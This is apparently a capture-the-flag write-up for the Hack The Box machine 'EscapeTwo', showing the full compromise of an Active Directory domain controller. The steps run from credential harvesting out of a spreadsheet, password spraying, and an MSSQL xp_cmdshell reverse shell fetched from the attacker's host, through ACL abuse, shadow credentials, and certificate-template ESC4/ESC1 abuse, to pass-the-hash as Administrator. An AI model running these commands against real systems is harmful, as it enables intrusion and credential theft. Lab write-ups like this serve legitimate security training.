



# Escape Two

## Initial Enumeration

```bash
nmap -sC -sV -Pn 10.10.11.51 -oN scans/nmap.initial
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 11:56 GMT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.11.51
Host is up (0.18s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-08 11:56:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-08T11:58:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-03-08T05:52:27
|_Not valid after:  2055-03-08T05:52:27
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-03-08T11:57:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.97 seconds
```


## Enumerating LDAP

We're given those creds at the beginning of the engagement `rose:KxEPkKe6R8su`

Rose has ldap access
```bash
cme ldap 10.10.11.51 -u rose -p 'KxEPkKe6R8su'
```
```bash
SMB         10.10.11.51     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
```

So we can use a bloodhound injester
```bash
bloodhound-python \
  -u rose \
  -p 'KxEPkKe6R8su' \
  -c All \
  -d sequel.htb \
  --dns-timeout 10 \
  -ns 10.10.11.51
```

Starting bloodhound-ce and uploading data to it
```bash
docker compose pull && docker compose up
```

Also get a list of users manually with ldapsearch
```bash
type=user
ldapsearch -x -LLL \
  -H ldap://10.10.11.51:389 \
  -b "CN=users,DC=sequel,DC=htb" \
  -D 'rose@sequel.htb' \
  -w 'KxEPkKe6R8su' \
  "(objectClass=${type})" \
  samaccountname |\
grep sAMAccountName |\
cut -d' ' -f 2 |\
tee "${type}"
```

## Enumerating SMB

```bash
smbclient -L //10.10.11.51 -U rose --password 'KxEPkKe6R8su'
```
```
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	Accounting Department Disk
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	Users           Disk
SMB1 disabled -- no workgroup available
```

Get the files in the share
```bash
smbclient //10.10.11.51/Accounting\ Department -U rose --password 'KxEPkKe6R8su'
```
```
smb: \> dir
  .                                   D        0  Sun Jun  9 11:52:21 2024
  ..                                  D        0  Sun Jun  9 11:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 11:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 11:52:07 2024

		6367231 blocks of size 4096. 924956 blocks available
smb: \> mget *
```

## Password leak in corrupted xlsx

The xlsx is corrupted but can be treated as a zip, once unzipped the file structure is apparently standard, and what we're interested in is mostly in `xl/sharedStrings.xml`
```bash
xq -r '.sst.si[].t."#text"' sharedStrings.xml
```
```
First Name
Last Name
Email
Username
Password
Angela
Martin
angela@sequel.htb
angela
0fwz7Q4mSpurIt99
Oscar
Martinez
oscar@sequel.htb
oscar
86LxLBMgEWaKUnBG
Kevin
Malone
kevin@sequel.htb
kevin
Md9Wlq1E5bZnVDVo
NULL
sa@sequel.htb
sa
MSSQxxxxxxx
```

That's what we get
```
angela:0fxxxxxxxxxxxxxx
oscar:86Lxxxxxxxxxxxxx
kevin:Md9xxxxxxxxxxxxx
sa:MSSQxxxxxxx
```

## MSSQL - Connecting

The password itself is pretty telling as per what it's used for, but we can spray it anyway so see if it's used anywhere else.
```bash
cme mssql 10.10.11.51 -u loot/user -p 'MSSQxxxxxxx' --local-auth --continue-on-success
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Administrator'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Guest'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'krbtgt'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'michael'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ryan'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'sql_svc'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'rose'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ca_svc'.
MSSQL       10.10.11.51     1433   DC01             [+] sa:MSSQxxxxxxx (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'angela'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'kevin'.
```

## MSSQL - XP Cmdshell

Connecting to the database and use the built in impacket `xp_cmdshell`
```bash
mssqlclient.py 'escapetwo.htb/sa:MSSQxxxxxxx@10.10.11.51'
```
```
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> xp_cmdshell whoami
output
--------------
sequel\sql_svc

NULL
```

This shell is pretty limited we probably want to upgrade it to a proper reverse shell


## MSSQL - PowerJoker

Generate an obfuscated reverse shell with powerjoker
```bash
python3 /opt/PowerJoker/PowerJoker.py -l 10.10.16.93 -p 4242
```

We can't just paste the b64 blob in our `xp_cmdshell` because it's too long
```bash
[-] ERROR(DC01\SQLEXPRESS): Line 1: Incorrect syntax near 'e'.
[-] ERROR(DC01\SQLEXPRESS): Line 1: The identifier that starts with 'JABzAHQAcgAgAD0AIAAiAFQAYwBQACIAKwAiAEMAIgArACIAbABpACIAKwAiAGUAIgArACIAbgB0ACIAOwAkAHIAZQB2AGUAcgBzAGUAZAAgAD0AIAAtAGoAbwBpAG4A' is too long. Maximum length is 128.
```

But we can host it in a local webserver and download it
```bash
xp_cmdshell powershell -c iwr "http://10.10.16.93:9090/joke.ps1" -o C:\programdata\joke.ps1
xp_cmdshell powershell -c dir C:\programdata\joke.ps1
xp_cmdshell powershell -c C:\programdata\joke.ps1
```

Once we have a proper reverse shell we can explore a little bit, and find this folder under `C:`
```bash
10.10.11.51:57410 >>> [PJSession] 1: dir


    Directory: C:\SQL2019\ExpressAdv_ENU


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/8/2024   3:07 PM                1033_ENU_LP
d-----         6/8/2024   3:07 PM                redist
d-----         6/8/2024   3:07 PM                resources
d-----         6/8/2024   3:07 PM                x64
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML
-a----         6/8/2024   3:07 PM             16 PackageId.dat
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL


JokerShell C:\SQL2019\ExpressAdv_ENU>
```

## Password leak from the DB config

And in the database configuration file we can find the SA password we just used to connect to it but also the password of `sql_svc` which is the user we have this shell as.
```bash
10.10.11.51:57410 >>> [PJSession] 1: type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAxxxxxxxxxxx"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQxxxxxxx"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
JokerShell C:\SQL2019\ExpressAdv_ENU>
```
```bash
10.10.11.51:57410 >>> [PJSession] 1: whoami
sequel\sql_svc
```

## Spraying the new password

The password for `sql_svc` is reused by `ryan` 
```bash
cme ldap 10.10.11.51 -u loot/user -p 'WqSZAxxxxxxxxxxx' --continue-on-success
```
```
SMB         10.10.11.51     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\oscar:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\sql_svc:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\rose:WqSZAxxxxxxxxxxx
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\ca_svc:WqSZAxxxxxxxxxxx
```

## Playing with ActiveDirectory

I'm going on a bit of a tangent here, trying to get familiar with windows things in various different ways

### Powershell ActiveDirectory Module (on Windows)

- [understanding-get-acl-and-ad-drive-output](https://devblogs.microsoft.com/powershell-community/understanding-get-acl-and-ad-drive-output/)

Trying to get ryan's ACLs manually, directly from Powershell

```bash
Import-Module ActiveDirectory
Get-Module
Get-Command -Module ActiveDirectory
```
```bash
Get-ADUser ryan
(Get-ADUser ryan).DistinguishedName
```
```bash
Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb"
(Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb").Access
```

### PowerView.ps1 (On Windows)

Trying to get ryan's ACLs manually, from PowerView

-[powerview docs](https://powersploit.readthedocs.io/en/latest/Recon/)

```bash
iwr "http://10.10.16.70:9090/PowerView.ps1" -o .\PowerView.ps1
Import-Module .\PowerView.ps1
Get-Module
Get-Command -Module PowerView
```
```bash
Get-DomainUser -Identity ryan
(Get-DomainUser -Identity ryan).objectsid
(Get-DomainUser -Identity ryan).distinguishedname
(Get-DomainUser -Identity ryan).samaccountname
```
```bash
Get-DomainUser -Identity ca_svc
(Get-DomainUser -Identity ca_svc).objectsid
(Get-DomainUser -Identity ca_svc).distinguishedname
(Get-DomainUser -Identity ca_svc).samaccountname
```
```bash
Get-Help Get-DomainObjectAcl -full
Get-DomainObjectAcl -ResolveGUIDs -Identity "S-1-5-21-548670397-972687484-3496335370-1114"
Get-DomainObjectAcl -ResolveGUIDs -Identity "CN=ryan howard,CN=users,DC=sequel,DC=htb"
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
```

### PowerView.py (Linux)

Trying to get ryan's ACLs manually, from PowerView.py

-[powerview.py github](https://github.com/aniqfakhrul/powerview.py)

```bash
python3 powerview.py 'sequel.htb/ryan:WqSZAxxxxxxxxxxx@10.10.11.51'
```
```bash
Get-DomainUser -Identity ryan
```
```bash
Get-DomainUser -Identity ca_svc
```
```bash
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
```

## Abusing ryan's writeOwner over ca svc



Since ryan has `writeOwner` privilege over `ca_svc` we can set him as owner of `ca_svc`
```bash
Get-Help Set-DomainObjectOwner -full
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
```

Now that ryan is the owner, he can grant him all rights, `GenericAll`
```bash
Get-Help Add-DomainObjectAcl -full
Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights All
```

We can now re-ingest everything in bloodhound to check what we've just done
```bash
bloodhound-python \
  -u ryan \
  -p 'WqSZAxxxxxxxxxxx' \
  -c All \
  -d sequel.htb \
  --dns-timeout 10 \
  -ns 10.10.11.51
```




## GenericAll - Change password

We gave ryan GenericAll on `ca_svc` we should be able to change its password

This did not work
```bash
net rpc password \
  "ca_svc" 'fluffydog17!' \
  -U "sequel.htb"/"ryan"%"WqSZAxxxxxxxxxxx" \
  -S "DC01.sequel.htb"
```
```
Failed to set password for 'ca_svc' with error: Access is denied..
```

But this seems to have worked
```bash
bloodyAD \
  -u "ryan" \
  -p "WqSZAxxxxxxxxxxx" \
  -d "sequel.htb" \
  --host "10.10.11.51" \
  --dns "10.10.11.51" \
  set password "ca_svc" 'fluffydog17!'
```
```
[+] Password changed successfully!
```

I could verify with cme that smb and wmi are available to ca svc, but could not log in to either though, it looks like after a while I lost that access. Was it blocked somehow? Changing a password is actually quite noisy an likely to get reported. Maybe that's htb trying to tell us that we shouldn't have been lazy and should have used a shadow credentials attack. If I try to change the password again I get
```
Password can't be changed before -2 days, 23:56:58.619569 because of the minimum password age policy.
```

## GenericAll - Shadow Credentials with Certipy

Trying certipy, the first time failed, because my ACL changes have been reverted by now. So I'm redoing those steps with powerview.py this time, note that the flags differ slightly from the original powerview
```bash
PV > Set-DomainObjectOwner -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
PV > Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights fullcontrol
```

Certipy autoaticall adds a key to ca svc and then does some magic with kerberos to eventually give us the NT hash for ca svc, I need to understand what exactly this does at some point, I think a tool called whisper.exe/pywhisker.py can do that too.
```bash
certipy shadow auto \
  -u "ryan@sequel.htb" \
  -p "WqSZAxxxxxxxxxxx" \
  -account ca_svc \
  -dc-ip 10.10.11.51
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '65845dcd-e0d9-2e6f-7d21-0a53048c57de'
[*] Adding Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b18xxxxxxxxxxxxxxxxxxxxx
```

## GenericAll - Shadow Credentials with pyWhisker

Trying to do that with pywhisker
```
pywhisker \
  --dc-ip 10.10.11.51 \
  -d "sequel.htb" \
  -u "ryan" \
  -p "WqSZAxxxxxxxxxxx" \
  -t "ca_svc" \
  -a "add" \
  -f yay
```
```
[!] unsupported hash type MD4
```

After a bit of troubleshooting that's a python cryptography issue, installing pycryptodom manually in the environment fixes it.
```bash
pip install pycryptodome
```

Nice, now we know 2 ways to do a shadow credentials attack, we could also do it directly from windows with the original whiskers.exe, but I've probably experimented enough for today.
```bash
pywhisker \
  --dc-ip 10.10.11.51 \
  -d "sequel.htb" \
  -u "ryan" \
  -p "WqSZAxxxxxxxxxxx" \
  -t "ca_svc" \
  -a "add" \
  -f yay
```
```
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: f56da038-4be9-488f-a230-80e6c37ac15e
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: yay.pfx
[+] PFX exportiert nach: yay.pfx
[i] Passwort für PFX: WuzNTKHPTjt84AQq6GLq
[+] Saved PFX (#PKCS12) certificate & key at path: yay.pfx
[*] Must be used with password: WuzNTKHPTjt84AQq6GLq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

## ADCS ESC4 exploitation with Certipy

### Find ADCS vulnerabilities

We can now authenticate as `ca_svc` and look for vulnerabilities in the certificate authority system, note that if run without the stdout flag, certipy find dumps some files that you can injest in bloodhound.
```bash
certipy find \
  -u ca_svc@sequel.htb \
  -hashes :3b18xxxxxxxxxxxxxxxxxxxxx \
  -vulnerable
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250316132722_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316132722_Certipy.txt'
[*] Saved JSON output to '20250316132722_Certipy.json'
```

A quick grep tells us about one of the templates being vulnerable to ESC4
```bash
grep -ri ESC 20250316132722_Certipy.txt
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

But we might as well injest that stuff into bloodhound.

[adcs-attack-paths-in-bloodhound](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)

ca svc is part of the cert publisher group, and the cert publisher group has GenericAll over the DunderMifflinAuthentication template,



Which means we can modify it to make it vulnerable to ESC1. In essence that's what ESC4 means.

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

More info about ESC4 and ESC1 from the certipy git:
- [ESC4](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)
- [ESC1](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


### Update the template

We found out that the template `DunderMifflinAuthentication` is vulnerable to `ESC4`, so we can update the template to make it vulnerable to ESC1
```bash
certipy template \
  -u ca_svc@sequel.htb \
  -hashes '3b18xxxxxxxxxxxxxxxxxxxxx' \
  -template 'DunderMifflinAuthentication' \
  -target DC01.sequel.htb \
  -ns 10.129.89.45
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

### Issue a cert with the updated template

Once the template is updated and vulnerable to ESC1 we can request a cert with that template, as Admnistrator in the upn, and we get back a pfx
```bash
certipy req \
  -ns 10.10.11.51 \
  -dns 10.10.11.51 \
  -dc-ip 10.10.11.51 \
  -key-size 4096 \
  -u 'ca_svc@sequel.htb' \
  -hashes :3b18xxxxxxxxxxxxxxxxxxxxx \
  -ca sequel-DC01-CA \
  -template 'DunderMifflinAuthentication' \
  -upn Administrator@sequel.htb
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

### Unpack the pfx out of curiousity

A pfx is just a pkcs12 archive, so we can inspect the contents like so
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:''
```
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
   openssl x509 -noout -text
```

Indeed the SANs have the administrator as UPN
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
   openssl x509 -noout -ext subjectAltName
```
```
X509v3 Subject Alternative Name:
    DNS:10.10.11.51, othername: UPN:Administrator@sequel.htb
```

### Use the x509 identity to get Admin TGT

And we can now use certipy auth with that key and cert, and certipy does some more kerberos magic to eventually get us a TGT as Administrator 
```bash
certipy auth \
  -pfx administrator_10.pfx \
  -username Administrator \
  -domain sequel.htb
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3xxxxxxxxxxxxxxxxxxxxxxxxxxxx:7a8d4e0xxxxxxxxxxxxxxxxxxxxx
```

### Use the Administrator's TGT with psexec 

And finally we can pass the hash with psexec to get a shell as Administrator
```bash
psexec.py -hashes :7a8d4e0xxxxxxxxxxxxxxxxxxxxx Administrator@sequel.htb -codec gbk
```

Or with evil-winrm
```bash
evil-winrm -i 10.10.11.51 -u Administrator -H '7a8d4e0xxxxxxxxxxxxxxxxxxxxx'
```
